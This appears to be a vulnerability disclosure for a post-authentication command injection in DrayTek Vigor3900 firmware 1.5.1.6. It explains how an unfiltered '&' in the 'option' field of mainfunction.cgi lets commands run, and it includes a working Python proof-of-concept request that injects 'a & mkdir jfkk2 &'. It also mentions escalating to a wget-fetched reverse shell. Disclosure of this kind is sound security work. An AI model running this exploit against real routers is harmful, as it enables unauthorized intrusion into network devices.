 # There is a post-authorization command injection vulnerability in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. The file improperly filters the values of related fields when processing requests, resulting in command injection, as shown below.

![image-20240817160748049](./pic/image-20240817160748049.png)

We can control the value of the `option` field to control the execution of the `system` function. After obtaining the value of the `option` field, it will be assigned to `value`, and then `value` will be filtered by the `filter_string` function, but the function does not filter the `space` and `&` characters, which will lead to command injection. Although `v4` is closed with single quotes in `v8`, the `/sbin/logread >/tmp/'%s'` statement will create a file in the `tmp` directory.

For example, executing `/sbin/logread > /tmp/'a & mkdir hack & '` will create a file named `a & mkdir hack & ` in `tmp`.

![image-20240817162034624](./pic/image-20240817162034624.png)

Then when you operate on the file later, for example, use `ls -lla a & mkdir hack & ` to view the file, it becomes executing `ls -lla a` first, and then executing the `mkdir hack` command. In this way, if a malicious person constructs related commands, such as downloading a rebound script through `wget` and then executing the script, it can lead to `RCE`.

![image-20240817162200296](./pic/image-20240817162200296.png)

## 3、Vulnerability Verification

The constructed POC is as follows, where the relevant `Cookie` value is required.

```python
import requests

def send_post_request(ip_address, session_cookie, option_value):
    url = f"http://{ip_address}/cgi-bin/mainfunction.cgi"

    headers = {
        "Host": ip_address,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Cookie": session_cookie,
        "Connection": "close"
    }

    data = {
        "action": "dumpSyslog",
        "option": option_value
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

ip_address = "10.10.10.2"
session_cookie = "SESSION_ID_VIGOR=7:F657C2D5AE041116E7003E8F7C8B7EFA"
option_value = "a & mkdir jfkk2 &"

response_text = send_post_request(ip_address, session_cookie, option_value)
print(response_text)

```

As can be seen below, we successfully created a folder named `jfkk2`

![image-20240817161616943](./pic/image-20240817161616943.png)

![image-20240817161707388](./pic/image-20240817161707388.png)

## 4、Reporter

- #### ✨jfkk (jfkk2331997024@gmail.com)